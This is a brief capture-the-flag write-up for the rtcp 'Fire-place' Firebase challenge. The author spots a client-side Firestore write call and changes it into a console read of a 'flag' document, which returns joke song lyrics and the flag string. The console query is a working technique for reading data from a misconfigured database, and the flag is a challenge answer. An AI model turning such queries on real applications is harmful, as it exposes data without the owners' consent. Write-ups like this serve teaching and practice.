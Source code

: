 # Fire-place

firebase challenge!!!
looks like theres a write call to the database in the network requests. quick look at the javascript confirms this.
the offending function `sendTHEPIXEL():`
```
db.collection("board").doc("data").update(docdata)
```
lets just change 'data' to 'flag' and a write request to a read request.
im sure the flag isnt actually flag lol....
the documentation for that can be found here:
https://firebase.google.com/docs/firestore/query-data/get-data#web_1
so we enter into the console:
```
db.collection("board").doc("flag").get().then(function(doc {console.log(doc.data())})
```
and in response we get:  
##### "Never gonna give you up":  
```
We're no strangers to love  
You know the rules and so do ...   
Never gonna tell a lie and hurt you   
Never gonna give you up   
Never gonna let you down   
Never gonna run around and desert you   
Never gonna make you cry  
Never gonna say goodbye   
Never gonna tell a lie and hurt you"  
```
​"flag!!!!!!!!!!!!!": `"rtcp{d0n't_g1ve_us3rs_db_a((3ss}"`
​
fuck.

#### rtcp{d0n't_g1ve_us3rs_db_a((3ss}
